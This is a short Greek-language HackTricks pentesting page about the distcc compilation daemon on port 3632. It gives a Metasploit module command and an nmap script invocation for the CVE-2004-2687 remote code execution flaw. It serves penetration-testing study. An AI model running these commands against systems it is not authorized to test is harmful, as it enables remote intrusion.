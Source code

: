 {{#include ../banners/hacktricks-training.md}}

# Βασικές Πληροφορίες

**Distcc** είναι ένα εργαλείο που βελτιώνει τη **διαδικασία μεταγλώττισης** χρησιμοποιώντας τη **μη χρησιμοποιούμενη επεξεργαστική ισχύ** άλλων υπολογιστών στο δίκτυο. Όταν το **distcc** είναι ρυθμισμένο σε μια μηχανή, αυτή η μηχανή είναι ικανή να διανέμει τις **εργασίες μεταγλώττισης** σε ένα άλλο σύστημα. Αυτό το σύστημα παραλήπτης πρέπει να εκτελεί τον **distccd daemon** και να έχει εγκατεστημένο έναν **συμβατό μεταγλωττιστή** για να επεξεργαστεί τον αποσταλμένο κώδικα.

**Προεπιλεγμένη θύρα:** 3632
```
PORT     STATE SERVICE
3632/tcp open  distccd
```
# Εκμετάλλευση

Ελέγξτε αν είναι ευάλωτο στο **CVE-2004-2687** για να εκτελέσετε αυθαίρετο κώδικα:
```bash
msf5 > use exploit/unix/misc/distcc_exec
nmap -p 3632 <ip> --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
# Shodan

_Δεν νομίζω ότι το shodan ανιχνεύει αυτή την υπηρεσία._

# Resources

- [https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec](https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec)
- [https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

Post created by **Álex B (@r1p)**

{{#include ../banners/hacktricks-training.md}}
